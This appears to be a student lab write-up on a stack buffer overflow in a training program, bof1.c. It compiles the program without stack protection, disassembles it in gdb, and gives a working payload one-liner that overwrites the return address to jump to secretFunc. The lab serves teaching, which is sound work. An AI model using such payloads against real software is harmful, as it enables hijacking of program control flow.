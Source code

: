 # Understand bof1.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## stackframe

## Vulnerbility
At "gets(array)"; function, we see that hackers can exploit the stackframe by adding more bytes in python in order to redirect the return address! 
# Start attacking bof1.c 
## Compiling the file without stack restriction
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![image](https://github.com/user-attachments/assets/21d80169-9f8e-4b30-9a74-2a1f724fe91e)
## Run gdb for futher examination
`gdb bof1.out`  
![image](https://github.com/user-attachments/assets/fd0f1874-33e5-462a-b728-5585a58f25f2)
## Try to see each func in machine code!
With **vuln**: `disas vuln` 
![image](https://github.com/user-attachments/assets/5cebaf7c-ea46-4f84-8ca1-5cadb035417b)  
With **secretFunc**: `disas secretFunc`  
![image](https://github.com/user-attachments/assets/9309975e-fe08-4948-b08a-ff2b48181bd6)  
=> We see that the address of  **secretFunc** is `0x0804846b`. So now, we are going to replace the **vuln's return address** with the **secretFunc's return address**.
## Calculate the total bytes to attack
As can be seen from the stackframe, we need in sum of 204 bytes of a and the last will be the return address of **secretFunc**  
Now we use `q` to exit and type `echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123` to see the result!  
![image](https://github.com/user-attachments/assets/e7537703-ab20-4977-96fb-a0ee086fc7ec)

